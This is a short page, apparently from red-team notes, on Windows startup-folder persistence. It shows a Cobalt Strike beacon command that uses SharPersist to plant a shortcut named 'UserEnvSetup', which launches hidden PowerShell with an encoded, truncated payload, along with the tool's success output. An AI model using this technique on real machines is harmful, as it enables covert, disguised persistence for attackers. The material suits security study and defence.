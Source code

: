 # Startup Folder

### Startup Folder

Applications within a users startup folder are launched automatically when the user logs in to their workstation. It's commonly used to set the users home environment, set shortcuts, etc.

### CobaltStrike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

#### Execute Payload

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c 
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAo...AGEAIgApACkA" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoA...bQAvAGEAIgApACkA
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\alice\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
```
